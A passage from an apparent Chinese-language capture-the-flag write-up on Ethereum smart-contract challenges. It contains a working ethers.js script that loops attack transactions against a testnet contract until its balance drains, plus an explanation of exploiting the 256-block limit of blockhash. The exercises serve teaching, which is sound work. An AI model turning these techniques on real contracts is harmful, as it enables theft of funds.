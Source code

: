 ```solidity
    function withdraw() public {
        tx.origin.transfer(address(this).balance);
    }
    function () public payable {

    }
}
```

javascript 调用如下

```javascript
require('dotenv').config()
const ethers = require('ethers')

async function main(){
    const provider = new ethers.providers.JsonRpcProvider("https://ropsten.infura.io/v3/xxxxx")
    const wallet = new ethers.Wallet(process.env.PK,provider)
    const tx = {
        to: "0x42Eb4a7a57db35D1b96A76b63Abfc38C1310d74d",
        gasLimit: 2000000,
        data: "0x9e5faafc", // attack的16进制调用代码
    }
    while (true) {
        const hash = await wallet.sendTransaction(tx)
        await hash.wait()
        console.log("Send TX Hash",hash.hash)
        const balance = await provider.getBalance("0x3e26732239e736Ee998B00Ed35f81C7B6DC8c1CE")
        const balance_eth = ethers.utils.formatEther(balance)
        if (balance_eth == "2.0"){
            console.log("Balance",balance_eth)
        }else{
            break
        }
    }
}

main()
```

---

###### Predict the block hash

这个题的要求在于, `LockInGuess`这个 function 在运行的时候, 需要传参数`bytes32 hash`.这串 hash 则是作为了 `guess`, 的值.

同时 也会设定 `settlementBlockNumber` 等于当前区块+1, 然后去运行一下 `settle` 函数, 这里会计算一个 answer, 但是这个 answer 是根据 `settlementBlockNumber`来算的, 因此 当我们在运行`LockInGuess`的时候, 就会把一切需要的变量设定好.

**核心在于 你输入的 hash 需要是下个区块的 区块哈希, 即 你需要预测 未来的区块哈希, 从理论上来讲, 不可能** :apple:

因此, 需要找找 bug 点, 这个点则是 **block.blockhash** 这个函数, 理论上来说, 是可以获得给定区块号的 hash 值, 但是 他只能支持最近的 256 个块[不包含当前区块], 对于 256 个区块之前的函数会返回 0. 所以 解题办法是: **将 `lockInGuess` 传参数 hash 是 0 , 然后 256 个区块之后, 来调用一下 settle 函数即可.**, 由于合约没有验证开源, 因此 ethers 发送 tx
